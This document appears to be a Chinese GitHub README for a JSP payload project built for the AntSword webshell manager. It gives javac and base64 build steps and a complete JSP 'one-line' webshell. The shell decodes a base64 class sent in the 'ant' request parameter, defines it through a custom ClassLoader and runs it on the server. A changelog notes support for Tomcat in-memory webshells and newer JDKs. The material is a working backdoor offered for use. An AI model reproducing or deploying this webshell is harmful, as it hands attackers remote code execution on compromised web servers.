 # JspForAntSword  v1.1
中国蚁剑JSP一句话Payload

详细介绍： https://yzddmr6.tk/posts/antsword-diy-3/

环境： jdk1.6  tomcat7

## 编译

### 手动编译

```
javac -cp "D:/xxxx/lib/servlet-api.jar;D:/xxx/lib/jsp-api.jar" Test.java

base64 -w 0 Test.class > Test.txt
```

### 自动编译

在build.py中替换你的javac路径跟lib路径后，在当前目录下运行,即可对当前路径下所有.java文件进行编译以及生成base64格式的payload。

```
python3 build.py
```

## Shell

```
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public static byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("ant");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

其中`pageContext`可以替换为`request`或者`response`，以实现对Tomcat内存Webshell的兼容

## 更新日志

### v1.1

1.  增加对Tomcat内存Webshell的兼容
2. 兼容高版本JDK（JDK7-14）

### v 1.0

1. release